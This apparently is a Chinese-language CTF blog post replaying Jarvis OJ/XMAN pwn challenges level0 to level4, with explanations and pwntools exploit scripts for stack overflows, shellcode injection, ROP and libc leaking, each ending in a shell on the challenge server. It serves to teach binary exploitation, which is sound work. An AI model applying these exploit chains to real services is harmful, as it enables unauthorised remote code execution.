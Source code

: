 
title:  xman pwn题复现——学pwn小记（4）
categories: [CTF]
tags: [pwn]

---
最近在查阅资料时,无意中发现之前xman的环境还在,现在粗略的学习pwn.想起当时题都是比较基层的栈,加上上海省赛把pwn环境搞崩了,趁这个机会在怀旧的同时把一些知识点给复习升华下.<!-- more -->


## level0

最简单的,栈溢出.

![image-20210113124043442](image-20210113124043442.png)

只开了NX保护.看反汇编代码发现,有栈溢出点.同时内部有后门.

![image-20210113123620972](image-20210113123620972.png)

exp:

```python
from pwn import *
e=ELF('level0')
p=remote('pwn2.jarvisoj.com',9881)
pay='a'*0x80+p64(0)+p64(e.symbols['callsystem'])
p.sendline(pay)
p.interactive()
```

## Tell Me Something

![image-20210113131440686](image-20210113131440686.png)

还是只开了nx保护.

![image-20210113132618818](image-20210113132618818.png)

发现有栈溢出利用点与后门.

但是要注意的是这道题的mian函数.

![image-20210113132742912](image-20210113132742912.png)

我们正常的mian函数一般是如下:

![image-20210113132512530](image-20210113132512530.png)

即是有:

```bash
push rbp     #把上一个栈的rbp入栈
mov rbp,rsp
...
...
..
leave    # leave 相当于mov esp,ebp;pop ebp;
retn
```

我们在平常里构造栈出时：

```
buf+(0xbeadcade)+恶意code 
```

0xbeadcade的数据就为了平衡leave中的pop，因此在本题目中mian函数没有pop ebp或leave。因此payload不需要加(0xbeadcade)。

exp：

![image-20210113135133488](image-20210113135133488.png)

## level1

一个32位的程序，什么保护也没有开。

![image-20210113135547290](image-20210113135547290.png)

反汇编看，发现buf有可控栈溢出，同时提示了buf地址猜测可以手动入shell。

![image-20210113135742482](image-20210113135742482.png)

exp：

```python
from pwn import *

e=ELF('level1')
p=remote('pwn2.jarvisoj.com', 9877)
#p=process('level1')


p.recvuntil("What's this:")
addr=p.recvuntil("?")[:-1]
print(addr)
addr=int(addr,16)

pay1=asm(shellcraft.sh())
pay1=pay1.ljust(0x88,'a')
pay1=pay1+p32(0)+p32(addr)


p.sendline(pay1)
p.interactive()
```

![image-20210113140015120](image-20210113140015120.png)

## level2

![image-20210113140431065](image-20210113140431065.png)

一个32位的程序，只NX保护。看反汇编代码发现栈溢出利用点。

![image-20210113140350462](image-20210113140350462.png)

同时环境中有system函数，我们可以利用ret2libc的方法。

```python
from pwn import *
e=ELF('level2')
p=remote('pwn2.jarvisoj.com',9878)#process('level2')

pay='a'*0x88+p32(0)+p32(e.plt['system'])+p32(0x0804A024)+p32(0x0804A024)#0x0804A024为/bin/sh地址

p.sendline(pay)

p.interactive()
```

## level2_x64

环境与32位的环境差不多，但是x64的传参与x32下不同。

x64中前6个参数是按顺序从 rdi ，rsi ，rdx，rcx，r8，r9这6寄存器传递参数的。x32是纯通过栈来传递参数的。因此我们可以用：

`ROPgadget --binary level2_x64 --only 'pop|ret'`来寻找我们可以利用的gadget。



![image-20210113141628743](image-20210113141628743.png)

exp：

```python
from pwn import *
e=ELF('level2_x64')
p=remote('pwn2.jarvisoj.com',9882)#process('level2_x64')
pay='a'*0x80+p64(0)+p64(0x00000004006b3)+p64(0x00000600A90)+p64(e.plt['system'])
p.sendline(pay)
p.interactive()
```

## level3_x64

为一个64位的程序只开了nx保护。

![image-20210113142124824](image-20210113142124824.png)

发现栈溢出点但是环境中没有sytstem与`/bin/sh`

因此我们要泄露出libc版本。ps：在做时，发现LibcSearcher泄露出来不准，因此用leak方法来做的。

```python
from pwn import *
from LibcSearcher import LibcSearcher
e=ELF('level3_x64')
p=remote('pwn2.jarvisoj.com',9884)
#context.update(bits=64)

def leak(address):
	pay='a'*0x80+p64(0)+p64(0x00004006AA)+p64(0)+p64(1)+p64(e.got['write'])+p64(8)+p64(address)+p64(1)+p64(0x0000000400690)+'\00'*56+p64(e.symbols['_start'])
#gdb.attach(p)
	p.sendline(pay)
        p.recvline()
	add=p.recv(8)
        return add

d=DynELF(leak,elf=e)
system_addr=d.lookup('system','libc')

pay='a'*0x80+p64(0)+p64(0x00004006AA)+p64(0)+p64(1)+p64(e.got['read'])+p64(8)+p64(0x00000000600A88)+p64(0)+p64(0x0000000400690)+'\00'*56+p64(e.symbols['_start'])
p.sendline(pay)
p.send('/bin/sh\x00')
pay='a'*0x80+p64(0)+p64(0x000004006b3)+p64(0x00000000600A88)+p64(system_addr)+p64(e.symbols['_start'])
p.sendline(pay)
p.interactive()
```

## level4

方法与level3差不多，leak出libc版本，然后ret2libc。

exp:

```python
from pwn import *
from LibcSearcher import LibcSearcher
e=ELF('level4')
#p=process('level4')
p=remote('pwn2.jarvisoj.com',9880)

def leak(address):
	pay='a'*0x88+p32(0)+p32(e.plt['write'])+p32(e.symbols['_start'])+p32(1)+p32(address)+p32(4)
#gdb.attach(p)
	p.sendline(pay)
	add=p.recv(4)
        return add

d=DynELF(leak,elf=e)
system_addr=d.lookup('system','libc')
print hex(system_addr)
read_plt=e.symbols['read']

#gdb.attach(p)
pay='a'*0x88+p32(0)+p32(read_plt)+p32(e.symbols['_start'])+p32(0)+p32(0x0804A024)+p32(8)
p.send(pay)
sleep(1)
p.send('/bin/sh\x00')
print "get shell"
pay='a'*0x88+p32(0)+p32(system_addr)+p32(e.symbols['_start'])+p32(0x0804A024)
p.sendline(pay)

p.interactive()
```

